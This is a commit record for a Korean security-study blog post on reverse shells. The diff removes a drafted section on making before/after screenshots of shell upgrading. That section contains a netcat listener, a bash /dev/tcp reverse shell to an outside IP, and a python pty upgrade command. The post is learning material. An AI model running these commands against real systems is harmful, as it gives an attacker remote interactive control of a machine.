

Before and after one commit to HamaP0/HamaP0.github.io, a Jekyll site: the page built from _posts/2025-09-20-ReverseShell_study.md, in a window 1280 px wide and 1400 px high, scrolled down 2069 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; after the commit the page ends 2699 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2025-09-20-ReverseShell_study.md

````diff
--- a/_posts/2025-09-20-ReverseShell_study.md
+++ b/_posts/2025-09-20-ReverseShell_study.md
@@ -58,72 +58,3 @@ nc -lvnp 4444
     ```
 
 <hr class="short-rule">
-
-
-
-
-
-### 시각 자료(이미지) 제작을 위한 스크립트
-
-#### **쉘 안정화 전/후 비교 이미지 제작**
-
-이 이미지는 제한된 쉘과 완전한 TTY 쉘의 기능적 차이를 명확하게 보여줍니다.
-
-**1. "Before" 이미지 (제한된 쉘)**
-
-1.  공격자 PC에서 `nc -lvnp 4444`로 리스너를 실행하고 대상 서버에서 리버스 쉘 페이로드를 실행하여 쉘을 획득합니다.
-2.  획득한 쉘에서 `Tab` 키를 누르거나 `Ctrl+C`를 눌렀을 때 쉘 전체가 종료되어 버리는 현상을 보여줍니다. (예: `^C` 문자가 찍히고 쉘 연결이 끊김)
-3.  이 불안정한 상태의 터미널 화면을 스크린샷으로 찍어 **`쉘안정화_전.png`** 로 저장합니다.
-
-**2. "After" 이미지 (안정화된 쉘)**
-
-1.  다시 쉘을 획득한 후, 위 `3. 쉘 안정화` 섹션의 1, 2, 3단계 명령어를 순서대로 모두 실행합니다.
-2.  안정화된 쉘에서 `clear` 명령어가 정상적으로 동작하여 화면이 깨끗해지는 것을 보여줍니다.
-3.  `ls -l /etc/ap` 까지 입력한 뒤 `Tab` 키를 눌러 `apache2/`로 자동 완성되는 모습을 보여줍니다.
-4.  이 모든 기능이 정상적으로 동작하는 터미널 화면을 스크린샷으로 찍어 **`쉘안정화_후.png`** 로 저장합니다.
-
-**3. 최종 이미지 편집**
-
-1.  이미지 편집 프로그램에서 `쉘안정화_전.png`(왼쪽)와 `쉘안정화_후.png`(오른쪽)를 나란히 배치합니다.
-2.  각 이미지 위에 "**Before (Dumb Shell)**"과 "**After (Fully Interactive TTY Shell)**" 텍스트를 추가합니다.
-3.  **Before** 이미지에서는 `Ctrl+C`로 인해 쉘이 종료되는 부분에 하이라이트를 적용합니다.
-4.  **After** 이미지에서는 탭 자동 완성이 성공하거나 `clear` 명령이 실행되는 부분에 하이라이트를 적용하여, 쉘이 완전히 제어 가능해졌음을 시각적으로 강조합니다.
-5.  수정된 이미지를 저장하여 게시글에 삽입합니다.
-
-### 시각 자료(이미지) 제작을 위한 스크립트
-
-#### **쉘 업그레이드 전/후 비교 이미지 제작**
-
-이 이미지는 제한된 쉘과 완전한 TTY 쉘의 차이점을 명확하게 보여주는 핵심 자료입니다.
-
-**1. "Before" 이미지 (제한된 쉘)**
-
-1.  (준비) 두 개의 터미널 창을 엽니다. 하나는 **공격자 PC(Attacker)** 다른 하나는 **대상 서버(Target)** 역할입니다.
-2.  **공격자 PC** 터미널에서 리버스 쉘 리스너를 실행합니다.
-    ```bash
-    nc -lvnp 4444
-    ```
-3.  **대상 서버** 터미널에서 공격자 PC로 리버스 쉘을 연결하는 명령어를 실행합니다.
-    ```bash
-    bash -i >& /dev/tcp/192.9.200.12/4444 0>&1
-    ```
-4.  **공격자 PC** 터미널에 연결이 수립되고, `$` 와 같이 매우 단순한 프롬프트가 나타날 것입니다. 이 상태에서 `whoami` 같은 간단한 명령어를 한두 번 실행합니다.
-5.  이 단순한 프롬프트가 보이는 **공격자 PC** 터미널 화면을 스크린샷으로 찍어 **`쉘업그레이드_전.png`** 로 저장합니다.
-
-**2. "After" 이미지 (TTY 쉘)**
-
-1.  위 4번 상태의 **공격자 PC** 터미널(리버스 쉘이 연결된 상태)에서, 쉘 업그레이드 명령어를 입력합니다.
-    ```bash
-    python3 -c "import pty; pty.spawn('/bin/bash')"
-    ```
-2.  명령어 실행 직후 프롬프트가 `www-data@ubuntu:/var/www/html$` 와 같이 사용자명과 현재 경로가 포함된 완전한 형태로 변경될 것입니다.
-3.  변경된 프롬프트가 보이는 **공격자 PC** 터미널 화면을 스크린샷으로 찍어 **`쉘업그레이드_후.png`** 로 저장합니다.
-
-**3. 최종 이미지 편집**
-
-1.  이미지 편집 프로그램(포토샵, 그림판 등)에서 새 캔버스를 엽니다.
-2.  왼쪽에 `쉘업그레이드_전.png`를, 오른쪽에 `쉘업그레이드_후.png`를 나란히 배치합니다.
-3.  각 이미지 위에 "**Before (Dumb Shell)**"과 "**After (Interactive TTY Shell)**" 텍스트를 추가합니다.
-4.  **Before** 이미지에서는 단순한 `$` 프롬프트 부분에 하이라이트를 적용합니다.
-5.  **After** 이미지에서는 `python3 -c "..."` 명령어 전체와, 그 결과로 나타난 `www-data@ubuntu:...$` 프롬프트 부분에 하이라이트를 적용하여 원인과 결과를 명확히 보여줍니다.
-6.  수정된 이미지를 저장하여 게시글에 삽입합니다.
````
